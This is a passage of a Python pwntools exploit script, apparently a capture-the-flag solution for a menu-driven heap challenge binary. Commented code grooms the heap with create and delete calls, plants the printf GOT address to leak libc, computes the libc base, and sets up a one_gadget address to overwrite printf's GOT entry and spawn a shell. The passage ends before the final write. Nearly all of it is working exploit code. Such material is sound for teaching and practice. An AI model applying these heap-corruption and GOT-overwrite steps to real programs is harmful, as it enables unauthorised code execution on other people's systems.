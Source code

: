 ```
    p.sendline("c")
    p.recvuntil("Created new question. ",timeout=0.1)
    index = p.recvline()[-2:-1]
    log.info("Create: {}".format(int(index)))
    menu()
    return index

def delete(index):
    log.info("Delete: {}".format(int(index)))
    p.sendline("d")
    p.recvuntil("question id: ")
    p.sendline(str(index))
    menu()

def setQ(index, name):
    log.info("Set: {} to {}".format(int(index), str(name)))
    p.sendline("s")
    p.recvuntil("question id: ")
    p.sendline(str(index))
    p.recvuntil("your question: ")
    p.sendline(name)
    menu()

def ask(index):
    log.info("Ask: {}".format(int(index)))
    p.sendline("a")
    p.recvuntil("question id: ")
    p.sendline(str(index))
    p.recvuntil("perhaps: ",timeout=0.1)
    result = p.recvline()[1:-2]
    menu()
    return result

# To begin, we create and delete various clones to setup the heap linked list how
# we need it before filling it with the GOT address of printf.
create()
create()
delete(0)
delete(1)
create()
create()

# Now we can set the value of clone 3 to be filled with the GOT address of printf.
# Here I use the ELF file, but we can also see in binary ninja the address of 
# printf@GOT is 0x804b010.
setQ(3, p32(elf.got["printf"]) * 15)

# Now we want to view the contents of clone 2, with the last 4 bytes of this ouput
# being the libc address of printf.
printfLeak = u32(ask(2)[:4])

# By searching in the ELF file, we can determine the printf offset in the libc being
# used, and we subtract this from the leak.
libcBase = printfLeak - 0x000513a0

# We now create and delete additional clones to prepare for our next write.
create()
delete(4)

# This is where we overwrite the GOT entry for printf with our one gadget which will
# pop a shell. We get this gadget's address by simply adding the offset given by the
# one_gadget command to the libc base.
gadget = libcBase + 0x3d123
```